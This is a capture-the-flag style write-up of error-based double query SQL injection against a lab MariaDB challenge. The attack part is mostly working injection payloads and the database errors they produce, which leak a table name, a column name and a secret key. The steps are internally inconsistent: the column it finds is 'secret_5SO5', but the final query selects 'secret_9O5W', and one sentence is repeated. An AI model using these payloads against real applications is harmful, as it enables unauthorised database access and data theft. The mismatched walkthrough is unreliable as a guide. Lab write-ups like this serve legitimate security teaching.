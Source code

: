 ## Challenge - 5

This challenge is based on double query injection and we have to use AND in this injection

reference:

http://www.securitytube.net/video/4283

http://www.securitytube.net/video/4303



### Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''\' LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id='input' 
```

We can check this using id=

```sql
0' or 1=1 --+
```

which will give us a login id and password. 

In here the query will not dump anything we give it. It will only dump the login_name and password in the table or the error statement. 

Now we have to dump the secret key through the error

```sql
select count(*),concat(0x3a,(select database()),0x3a,floor(rand()*2))a from information_schema.columns group by a;
```

This query will give us an error due to a duplication caused by the randomness of the rand() function. It will dump the database name in the error or anything we give in it's place.

We can use the same method to get the table_name,column_name and secret key

### Solving

We can get the table name using: id=

```sql
1' AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```
Duplicate entry ':8u4mpftsm8:0' for key 'group_key'
```

From which we get table_name = **8u4mpftsm8**

Now we can get the column name using: id=

```sql
1' AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='8u4mpftsm8' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```


Which will give the error:

Which will give the error:

```
Duplicate entry ':secret_5SO5:0' for key 'group_key'
```

From which we will get column_name = **secret_5SO5**

Now we can get the secret key using : id=

```sql
1' AND (select 1 from(select count(*),concat(0x3a,(select secret_9O5W from 8u4mpftsm8),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```
Duplicate entry ':Seu3ERzUbdGJm8cmLpUXpxkE:0' for key 'group_key'
```

where the key is :

**Seu3ERzUbdGJm8cmLpUXpxkE**